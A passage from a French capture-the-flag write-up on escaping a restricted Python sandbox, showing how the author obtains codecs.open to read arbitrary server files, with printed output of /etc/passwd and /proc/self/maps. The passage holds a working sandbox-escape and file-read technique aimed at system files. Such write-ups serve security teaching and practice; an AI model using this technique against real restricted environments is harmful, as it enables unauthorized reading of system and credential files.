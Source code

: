 Cependant, toujours en tatonnant, on trouve une fonction `open` dans le module _codecs_ qui fonctionne. Génial.

```python
>>> open = L('codecs').open
>>> open('/etc/passwd', 'r').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/bin/false\nctf-init:x:1000:1000::/home/ctf-init:\nctf:x:1001:1001::/home/ctf:\n'
```

On peut maintenant lire des fichiers arbitraires sur le serveur... on essaie quelques noms du style `server.py` ou `chall.py`, mais rien de probant. Essayons de lire `/proc/self/maps` :

```text
55b298700000-55b298701000 r--p 00000000 09:03 14549288                   /app/spython
55b298701000-55b298702000 r-xp 00001000 09:03 14549288                   /app/spython
55b298702000-55b298703000 r--p 00002000 09:03 14549288                   /app/spython
55b298703000-55b298704000 r--p 00002000 09:03 14549288                   /app/spython
55b298704000-55b298705000 rw-p 00003000 09:03 14549288                   /app/spython
55b299a56000-55b299b3b000 rw-p 00000000 00:00 0                          [heap]
7f5b9551d000-7f5b9559d000 rw-p 00000000 00:00 0 
7f5b955dd000-7f5b9569d000 rw-p 00000000 00:00 0 
7f5b956b8000-7f5b9581d000 rw-p 00000000 00:00 0 
7f5b9581d000-7f5b95824000 r--s 00000000 09:03 14555684                   /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f5b95824000-7f5b95856000 r--p 00000000 09:03 14554819                   /usr/lib/locale/C.UTF-8/LC_CTYPE
7f5b95856000-7f5b95858000 rw-p 00000000 00:00 0 
7f5b95858000-7f5b95867000 r--p 00000000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b95867000-7f5b95902000 r-xp 0000f000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b95902000-7f5b9599b000 r--p 000aa000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b9599b000-7f5b9599c000 r--p 00142000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b9599c000-7f5b9599d000 rw-p 00143000 09:03 14549531                   /lib/x86_64-linux-gnu/libm-2.30.so
7f5b9599d000-7f5b9599e000 r--p 00000000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b9599e000-7f5b9599f000 r-xp 00001000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b9599f000-7f5b959a0000 r--p 00002000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b959a0000-7f5b959a1000 r--p 00002000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b959a1000-7f5b959a2000 rw-p 00003000 09:03 14550555                   /lib/x86_64-linux-gnu/libutil-2.30.so
7f5b959a2000-7f5b959a3000 r--p 00000000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a3000-7f5b959a4000 r-xp 00001000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a4000-7f5b959a5000 r--p 00002000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
7f5b959a5000-7f5b959a6000 r--p 00002000 09:03 14549446                   /lib/x86_64-linux-gnu/libdl-2.30.so
```